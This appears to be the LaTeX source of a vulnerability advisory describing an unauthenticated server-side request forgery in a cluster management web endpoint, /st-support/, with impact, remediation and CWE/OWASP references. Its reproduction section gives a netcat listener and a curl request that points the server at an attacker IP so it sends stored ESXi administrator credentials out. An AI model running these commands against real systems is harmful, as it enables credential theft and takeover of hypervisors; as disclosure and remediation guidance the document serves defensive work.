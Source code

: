 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection*{Reproduction}

\begin{lstlisting}[style=shell]
# Start a netcat listener to observe inbound credentials:
nc -lvp 80

# Send unauthenticated request to /st-support/* pointing at the listener:
curl -sk "https://<ctlvm>/st-support/?host=<attacker_ip>"

# The listener receives an HTTP connection authenticated with the cluster's
# stored ESXi username and password. No login to HX Connect required.
\end{lstlisting}

\subsection*{Impact}

Unauthenticated attacker obtains the ESXi administrator username and password
for all hypervisors in the cluster. ESXi admin access grants hypervisor console
on all nodes.

\subsection*{Remediation}

\begin{enumerate}[noitemsep]
\item Add a \texttt{filter-mapping} entry for \texttt{/st-support/*} to the
  authentication filter chain in \texttt{web.xml}.
\item Validate the \texttt{host} parameter against a whitelist of known cluster
  node IPs before constructing the credential object.
\item Audit all other servlet mappings for similar filter coverage gaps.
\end{enumerate}

\subsection*{References}

\begin{itemize}[noitemsep]
\item CWE-918: Server-Side Request Forgery ---
  \url{https://cwe.mitre.org/data/definitions/918.html}
\item OWASP Server-Side Request Forgery:
  \url{https://owasp.org/Top10/A10_2021-Server-Side_Request_Forgery_(SSRF)/}
\end{itemize}
\end{document}
